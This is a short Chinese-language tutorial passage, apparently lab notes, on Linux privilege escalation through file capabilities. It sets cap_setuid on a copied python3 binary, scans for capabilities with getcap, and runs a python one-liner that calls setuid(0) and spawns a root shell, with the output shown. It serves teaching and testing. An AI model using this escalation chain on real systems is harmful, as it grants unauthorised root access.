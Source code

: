 ### 3. capabilities  
**設給program，掠奪root的權限**  
```
$ sudo useradd -m -s /bin/bash rbean
$ echo "rbean:rbean" | sudo chpasswd

(設定 rbean 家目錄中的 python3 命令檔，具有 Capabilities setuid 權限，代表 python3 所執行的程式可設定 setuid 功能)
$ sudo cp /usr/bin/python3 /home/rbean 

$ sudo setcap  cap_setuid+ep  /home/rbean/python3
(讓python3有setUID)
$ exit


(列出有設定 Linux capabilities 的所有命令，從根目錄開始掃一遍哪些有被設定 capabilities)
$ getcap -r / 2>/dev/null
/home/rbean/python3 = cap_setuid+ep
/bin/ping = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep


(由以下命令得知 python3 命令檔並沒有設定 setuid 功能)
$ ls -al python3
-rwxr-xr-x 1 root root 5453504 Jul 28 04:56 python3

在以下 python3 命令所執行的 程式可執行 os.setuid(0) 這行命令, 提升 /bin/bash 這命令為 root 權限
$ ./python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
root@ub204:~# id
uid=0(root) gid=1001(rbean) groups=1001(rbean)
```
參數解說:  
\-c 跑程式  
os.setuid(0) 設root  
os.system(“/bin/bash”) 啟動時他的UID是root的0  
